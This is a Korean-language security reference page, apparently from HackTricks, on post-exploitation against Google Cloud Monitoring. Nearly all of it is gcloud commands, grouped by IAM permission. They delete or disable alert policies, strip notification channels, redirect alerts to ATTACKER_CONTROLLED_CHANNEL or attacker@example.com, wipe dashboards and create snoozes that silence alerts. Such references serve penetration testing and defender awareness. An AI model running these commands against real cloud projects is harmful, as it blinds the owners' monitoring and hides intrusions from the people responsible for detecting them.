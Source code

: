 # GCP - 모니터링 포스트 익스플로이테이션

{{#include ../../../banners/hacktricks-training.md}}

## 모니터링

자세한 정보는 다음을 확인하세요:

{{#ref}}
../gcp-services/gcp-monitoring-enum.md
{{#endref}}

로그를 방해하는 다른 방법은 다음을 확인하세요:

{{#ref}}
gcp-logging-post-exploitation.md
{{#endref}}

### `monitoring.alertPolicies.delete`

알림 정책 삭제:
```bash
gcloud alpha monitoring policies delete <policy>
```
### `monitoring.alertPolicies.update`

알림 정책 방해:
```bash
# Disable policy
gcloud alpha monitoring policies update <alert-policy> --no-enabled

# Remove all notification channels
gcloud alpha monitoring policies update <alert-policy> --clear-notification-channels

# Chnage notification channels
gcloud alpha monitoring policies update <alert-policy> --set-notification-channels=ATTACKER_CONTROLLED_CHANNEL

# Modify alert conditions
gcloud alpha monitoring policies update <alert-policy> --policy="{ 'displayName': 'New Policy Name', 'conditions': [ ... ], 'combiner': 'AND', ... }"
# or use --policy-from-file <policy-file>
```
### `monitoring.dashboards.update`

대시보드를 수정하여 방해합니다:
```bash
# Disrupt dashboard
gcloud monitoring dashboards update <dashboard> --config='''
displayName: New Dashboard with New Display Name
etag: 40d1040034db4e5a9dee931ec1b12c0d
gridLayout:
widgets:
- text:
content: Hello World
'''
```
### `monitoring.dashboards.delete`

대시보드를 삭제합니다:
```bash
# Delete dashboard
gcloud monitoring dashboards delete <dashboard>
```
### `monitoring.snoozes.create`

알림 생성을 방지하기 위해 스누저를 생성합니다:
```bash
# Stop alerts by creating a snoozer
gcloud monitoring snoozes create --display-name="Maintenance Week" \
--criteria-policies="projects/my-project/alertPolicies/12345,projects/my-project/alertPolicies/23451" \
--start-time="2023-03-01T03:00:00.0-0500" \
--end-time="2023-03-07T23:59:59.5-0500"
```
### `monitoring.snoozes.update`

공격자가 관심 있는 경우 경고가 생성되지 않도록 스누저의 타이밍을 업데이트합니다:
```bash
# Modify the timing of a snooze
gcloud monitoring snoozes update <snooze> --start-time=START_TIME --end-time=END_TIME

# odify everything, including affected policies
gcloud monitoring snoozes update <snooze> --snooze-from-file=<file>
```
### `monitoring.notificationChannels.delete`

구성된 채널을 삭제합니다:
```bash
# Delete channel
gcloud alpha monitoring channels delete <channel>
```
### `monitoring.notificationChannels.update`

채널의 레이블을 업데이트하여 방해합니다:
```bash
# Delete or update labels, for example email channels have the email indicated here
gcloud alpha monitoring channels update CHANNEL_ID --clear-channel-labels
gcloud alpha monitoring channels update CHANNEL_ID --update-channel-labels=email_address=attacker@example.com
```
{{#include ../../../banners/hacktricks-training.md}}
